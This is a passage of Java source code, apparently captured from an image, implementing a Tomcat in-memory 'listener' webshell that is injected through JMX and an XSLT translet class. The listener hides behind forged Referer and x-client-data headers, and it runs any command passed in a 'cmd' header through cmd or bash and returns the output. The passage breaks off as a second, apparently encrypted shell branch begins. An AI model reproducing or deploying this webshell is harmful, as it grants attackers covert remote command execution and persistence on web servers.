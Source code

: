 ```java
                field = Class.forName("org.apache.catalina.authenticator.AuthenticatorBase").getDeclaredField("context");
                field.setAccessible(true);
                StandardContext standardContext = (StandardContext) field.get(obj);

                TomcatListenerMemShellFromJMX listener = new TomcatListenerMemShellFromJMX();
                standardContext.addApplicationEventListener(listener);
            }
        } catch (Exception e) {
//            e.printStackTrace();
        }
    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }

    @Override
    public void requestDestroyed(ServletRequestEvent servletRequestEvent) {

    }

    @Override
    public void requestInitialized(ServletRequestEvent servletRequestEvent) {
// Listener马没有包装类问题
        try {
            RequestFacade requestFacade = (RequestFacade) servletRequestEvent.getServletRequest();
            Field f = requestFacade.getClass().getDeclaredField("request");
            f.setAccessible(true);
            Request request = (Request) f.get(requestFacade);
            Response response = request.getResponse();
            // 入口
            if (request.getHeader("Referer").equalsIgnoreCase("https://www.google.com/")) {
                // cmdshell
                if (request.getHeader("x-client-data").equalsIgnoreCase("cmd")) {
                    String cmd = request.getHeader("cmd");
                    if (cmd != null && !cmd.isEmpty()) {
                        String[] cmds = null;
                        if (System.getProperty("os.name").toLowerCase().contains("win")) {
                            cmds = new String[]{"cmd", "/c", cmd};
                        } else {
                            cmds = new String[]{"/bin/bash", "-c", cmd};
                        }
                        String result = new Scanner(Runtime.getRuntime().exec(cmds).getInputStream()).useDelimiter("\\A").next();
                        response.resetBuffer();
                        response.getWriter().println(result);
                        response.flushBuffer();
                        response.finishResponse();
                    }
                } else if (request.getHeader("x-client-data").equalsIgnoreCase("google")) {
                    if (request.getMethod().equals("POST")) {
                        // 创建pageContext
                        HashMap pageContext = new HashMap();

                        // lastRequest的session是没有被包装的session!!
```